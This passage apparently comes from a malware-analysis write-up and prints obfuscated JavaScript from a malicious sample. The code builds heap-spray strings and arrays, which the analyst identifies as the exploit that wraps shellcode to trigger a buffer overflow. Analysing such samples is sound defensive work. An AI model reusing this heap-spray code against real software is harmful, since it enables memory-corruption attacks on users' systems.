 ```javascript
    OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.length -
      fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA
  );
while (
  MOysyGgYplwyZzNdETHwkru.length +
    fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA <
  0x40000
)
  MOysyGgYplwyZzNdETHwkru =
    MOysyGgYplwyZzNdETHwkru +
    MOysyGgYplwyZzNdETHwkru +
    UohsTktonqUXUXspNrfyqyqDQlcDfbmbywFjyLJiesb;
DPwxazRhwbQGu = new Array();
for (
  EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA = 0;
  EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA < 100;
  EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA++
)
  DPwxazRhwbQGu[EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA] =
    MOysyGgYplwyZzNdETHwkru + ETXTtdYdVfCzWGSukgeMeucEqeXxPvOfTRBiv;

for (
  EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA = 142;
  EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA >= 0;
  --EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA
)
  zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf += unescape("%ub550%u0166");
bGtvKT = zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.length + 20;
while (zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.length < bGtvKT)
  zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf +=
    zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf;
Juphd = zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.substring(0, bGtvKT);
QCZabMzxQiD = zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.substring(
  0,
  zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.length - bGtvKT
);
while (QCZabMzxQiD.length + bGtvKT < 0x40000)
  QCZabMzxQiD = QCZabMzxQiD + QCZabMzxQiD + Juphd;
FovEDIUWBLVcXkOWFAFtYRnPySjMblpAiQIpweE = new Array();
for (
  EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA = 0;
  EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA < 125;
  EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA++
)
  FovEDIUWBLVcXkOWFAFtYRnPySjMblpAiQIpweE[
    EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA
  ] = QCZabMzxQiD + zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf;
```

I spent the majority of the time analyzing the Javascript only to realise this is the exploit itself. The code wraps the shellcode (`IxTUQnOvHg`) around the large payload on top which causes the buffer overflow. Instead of wasting time further analyzing the Javascript, my focus now turns to the shellcode itself.
